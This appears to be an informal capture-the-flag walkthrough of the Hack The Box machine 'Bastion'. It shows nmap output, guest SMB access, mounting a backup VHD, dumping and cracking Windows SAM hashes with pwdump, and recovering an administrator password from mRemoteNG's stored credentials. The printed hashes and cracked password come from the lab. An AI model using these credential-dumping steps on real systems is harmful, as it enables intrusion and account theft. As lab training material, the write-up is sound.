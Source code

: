 +++

Title = "Bastion-Notes"

+++

so nmap revealed a bunch of stuf sm![pwdump](pwdump.PNG)b which allows guest access. inside there we find a clue. Also the directory is writeable. so ill have to try psf.exe

```
# Nmap 7.70 scan initiated Mon May 13 17:33:32 2019 as: nmap -sC -sV -p22,135,139,445,5985,12512 -oA nmap/target 10.10.10.134                                
Nmap scan report for 10.10.10.134
Host is up (0.046s latency).

PORT      STATE  SERVICE      VERSION
22/tcp    open   ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open   msrpc        Microsoft Windows RPC
139/tcp   open   netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
12512/tcp closed unknown
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows                                                                     

Host script results:
|_clock-skew: mean: -39m52s, deviation: 1h09m14s, median: 5s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-05-13T23:33:50+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-05-13 17:33:49
|_  start_date: 2019-05-13 15:37:21

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                               
# Nmap done at Mon May 13 17:33:50 2019 -- 1 IP address (1 host up) scanned in 18.08 seconds 
```

smb enum

null client guest xD no switches needed. using the cmd below we should see allt he writeable share.

```
smbmap -u guest -H 10.10.10.134 -r /
```

well use smbclient to connect to smb. note i don't use any switches this is referred to null 

```
smbclient //10.10.10.134/Backups
```

we found a note.txt, i think this is a ![bastion-smb](bastion-smb.PNG)note tot us that we do not need to transfer the file to the localhost. Using some command line we can mount the remote drive locally.

```
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```

WindowsImageBackup is where the backup iamges are that we will be exploiting. these are windows 2008.

this will mount the share to a local directory.

```
mount -o user=guest '//10.10.10.134/Backups' /mnt/bast-vhd 
```

```
cd /mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351
```

![vhd-image](vhd-image.PNG)

next install guestmount, if you don't already have it apt-get install guestmount. i used -m flag but i needed to use the --inspector flag. make sure you are in the working directory for the vhd image. make a second mnt directory

```
mkdir /mnt/bast-vhd2
```

```
guestmount --add 9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/bast-vhd2 
```

no, took awhile to find what i was looking for in here spent sometime looking for poo strange programs. then i remember this one time i got into someone computer i had access to the filesystem so i found the ntlm hashes. 

We are looking for where ntlm hashes are stored inside windows 2008. which can be found in c:\Windows\System32\config

![ntlm-saved](ntlm-saved.PNG)

now i fond a bunch of tools for later use. https://tools.kali.org/password-attacks/creddump

i used pwdump, i also moved the files to my basitonf directory. 

```
pwdump SYSTEM SAM
```

![pwdump](pwdump.PNG)

took awhile to figure out to uses these creds with opensshwinx64. administrator password here isn't a known hash so good luck brute forcing it. but l4mpje works fine. ran that users hash at crackstation.com

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::    
```

```
user:	L4mpje
pass:	bureaulampje
```

openssh

```
ssh L4mpje@10.10.10.134
```

once inside here i found mremoteng which i have used in the past for ssh scp type stuff. you can store creds locally etc connection. 

there are a couple different files to choice form and recently they fulled encrypted the file or whatever. but i think the olderback isn't fully encrypted which gives us access to what we need. 

![confCons](confCons.PNG)

go to file > Open connectionFile

![remote2](remote2.PNG)

now well add this weird external terminal tool feature to extract the passwords. 

Tools > External Tools

you will notice i already have one done but i added quotes and that tripped me up thought it was apart of the password lol. then i check L4mpje and saw the same quote. this will opena  terminal with the password decrypted yes!!

```
display name :	PassWordLookUp
filename :	cmd
arguements :	/k echo %password%
```

![remote3](remote3.PNG)

right click on DC > external tool >passwordlookup . it should open a cmd prompt. 

![root](root.PNG)

login into ssh with adminsitrator and the password done.

![pinkie-evil](pinkie-evil.webp)